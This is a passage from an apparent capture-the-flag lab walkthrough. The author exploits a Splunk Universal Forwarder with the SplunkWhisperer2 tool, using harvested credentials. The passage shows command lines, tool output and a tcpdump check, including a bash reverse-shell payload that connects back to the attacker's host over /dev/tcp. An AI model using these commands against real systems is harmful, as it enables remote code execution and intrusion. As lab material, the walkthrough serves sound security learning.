 

### POC

I ran `git clone https://github.com/cnotin/SplunkWhisperer2.git` to get
a copy of the repo locally, and then decided to try the exploit with a
simple `ping` to test it. I started `tcpdump`, and then ran the exploit:



    root@kali:/opt/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.6"
    Running in remote mode (Remote Code Execution)
    [.] Authenticating...
    [+] Authenticated
    [.] Creating malicious app bundle...
    [+] Created malicious app bundle in: /tmp/tmpwvtxfq84.tar
    [+] Started HTTP server for remote mode
    [.] Installing app from: http://10.10.14.6:8181/
    10.10.10.209 - - [01/Nov/2020 06:15:40] "GET / HTTP/1.1" 200 -
    [+] App installed, your code should be running now!

    Press RETURN to cleanup



At `tcpdump`, I got pinged:



    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    06:15:40.494671 IP 10.10.10.209 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
    06:15:40.494729 IP 10.10.14.6 > 10.10.10.209: ICMP echo reply, id 1, seq 1, length 64



I hit enter in the exploit window and it cleaned up.

### Shell

Now I'll start `nc` and change the payload from `ping` to a reverse
shell:



    root@kali:/opt/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
    Running in remote mode (Remote Code Execution)
    [.] Authenticating...
    [+] Authenticated
    [.] Creating malicious app bundle...
    [+] Created malicious app bundle in: /tmp/tmpceoe88rl.tar
    [+] Started HTTP server for remote mode
    [.] Installing app from: http://10.10.14.6:8181/
    10.10.10.209 - - [01/Nov/2020 06:17:57] "GET / HTTP/1.1" 200 -
    [+] App installed, your code should be running now!
